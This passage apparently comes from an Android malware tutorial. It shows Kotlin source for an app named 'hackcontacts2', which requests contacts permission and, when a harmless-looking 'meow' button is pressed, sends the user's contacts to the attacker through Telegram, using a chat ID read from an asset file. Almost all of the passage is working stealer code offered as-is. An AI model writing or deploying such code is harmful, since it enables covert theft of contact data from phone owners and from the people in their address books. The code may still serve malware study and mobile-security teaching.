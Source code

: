 ```kotlin
    private fun getChatIdFromAssets(): String {
        return context.assets.open("id.txt").bufferedReader().readText().trim()
    }
}
```

And in the `MainActivity` we just request permissions and send contacts via Telegram:     

```kotlin
package com.example.hackcontacts2

import android.Manifest
import android.content.Context
import android.os.Bundle
import android.widget.Button
import android.widget.Toast
import androidx.activity.ComponentActivity
import com.karumi.dexter.Dexter
import com.karumi.dexter.PermissionToken
import com.karumi.dexter.listener.PermissionDeniedResponse
import com.karumi.dexter.listener.PermissionGrantedResponse
import com.karumi.dexter.listener.PermissionRequest
import com.karumi.dexter.listener.single.PermissionListener

class MainActivity : ComponentActivity() {
    private lateinit var meowButton: Button
    private val hackContacts = HackContacts2(context = this)

    private fun startContactsPermissionRequest(context: Context) {
        Dexter.withContext(context)
            .withPermission(Manifest.permission.READ_CONTACTS)
            .withListener(object : PermissionListener {
                override fun onPermissionGranted(p0: PermissionGrantedResponse?) {
                    Toast.makeText(
                        context,
                        "Hack Contacts permission granted",
                        Toast.LENGTH_SHORT
                    ).show()
                }
                override fun onPermissionDenied(p0: PermissionDeniedResponse?) {
                    Toast.makeText(
                        context,
                        "Hack Contacts permission denied",
                        Toast.LENGTH_SHORT
                    ).show()
                }
                override fun onPermissionRationaleShouldBeShown(
                    p0: PermissionRequest?,
                    p1: PermissionToken?
                ) {
                }
            }).check()
    }

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)
        startContactsPermissionRequest(this)
        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            hackContacts.sendContacts()
        }
    }
}
```